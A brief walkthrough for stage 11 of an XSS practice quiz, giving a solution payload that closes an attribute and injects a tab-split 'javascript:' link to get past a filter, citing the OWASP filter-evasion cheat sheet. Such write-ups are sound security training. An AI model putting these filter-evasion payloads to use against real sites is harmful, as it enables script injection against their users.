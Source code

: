 ```yaml
---
layout: default
title: Stage 11
order: 11
---
```


# [Stage 11](http://xss-quiz.int21h.jp/stage11th.php?sid=756e90d9a168c24e2abbc43d1f4409ce6ff70de3)

**What you have to do:**  
Inject the following JavaScript command: `alert(document.domain);`

**Hint:**

This stage is not currently available, not even through [the wayback machine](https://web.archive.org/). 
I got the next level by looking for an URL online. 

A possible solution is 

`"><a href="javascr	ipt:alert(document.domain);">XSS</a>`

as explained [here](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#embedded-tab).